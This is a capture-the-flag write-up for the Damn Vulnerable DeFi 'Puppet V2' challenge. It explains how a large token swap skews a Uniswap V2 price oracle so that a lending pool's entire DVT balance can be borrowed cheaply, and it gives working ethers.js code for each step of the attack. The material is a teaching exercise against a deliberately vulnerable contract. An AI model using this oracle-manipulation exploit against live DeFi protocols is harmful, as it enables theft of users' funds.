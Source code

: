 ### [Contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/puppet-v2)
### Task
>The developers of the previous pool seem to have learned the lesson. And released a new version!

>Now they’re using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.

>You start with 20 ETH and 10000 DVT tokens in balance. The pool has a million DVT tokens in balance. You know what to do.

### Observations

*Please refer to previous challenge [Puppet](https://github.com/CharlieJRBenson/SmartContractHacking/tree/main/DamnVulnerableDefi/Puppet) for context*

- This pool differs due to it's use of UniswapV2, the Uniswap Router and the use of WETH instead of ETH.

- However the same principle stands as the pools use of the oracle relies on the stability of the liquidity pool.

- I have 20Eth and 10,000DVT.
- The Uniswap LP has 10 Eth and 100DVT.

- The UniswapV2 liquidity balance mechanism is based on product, e.g:
```
x * y = k
where:
x & y are the pair's reserve balances.
k is the product.
```

- With a huge increase in x, will be a huge decrease in y. And a manipulation of the price will occur.

- If we swap our 10,000DVT for the LP's Eth, the pool will have 10,100DVT and approx 0.099Eth.

- Hugely affecting the ratios, and therefore cost of DVT -> Which will lead to a much cheaper required deposit to borrow DVT from the lender pool.

### Steps 

- No need for a smart contract to do this, though it is advised as it enables the exploit to be performed in a single transaction.

- Swap all our DVT for WETH in the UniswapV2 LP:
```
//appove exchange to spend my tokens
await token.connect(player).approve(uniswapRouter.address, PLAYER_INITIAL_TOKEN_BALANCE);

//Swap all DVT for Weth in pool, devaluing DVT.
await uniswapRouter.connect(player).swapExactTokensForTokens(
    PLAYER_INITIAL_TOKEN_BALANCE,
    1,
    [token.address, weth.address],
    player.address,
    (await ethers.provider.getBlock('latest')).timestamp * 2,
)
```

- Wrap some more Eth to WETH, as lender pool only receives WETH now:

```
//Wrap my ETH to WETH
await weth.connect(player).deposit({ value: ethers.utils.parseEther('19.6') });
```

- Get lender pools required deposit to withdraw ALL the DVT tokens (now price has been manipulated):
```
//get new manipulated eth depositRequired from pool
depositRequired = await lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
```

- Borrow all the lenders tokens in exchange for WETH:
```
//appove exchange to spend my WETH
await weth.connect(player).approve(lendingPool.address, depositRequired);

//borrow all DVT from lending pool.
await lendingPool.connect(player).borrow(POOL_INITIAL_TOKEN_BALANCE);
```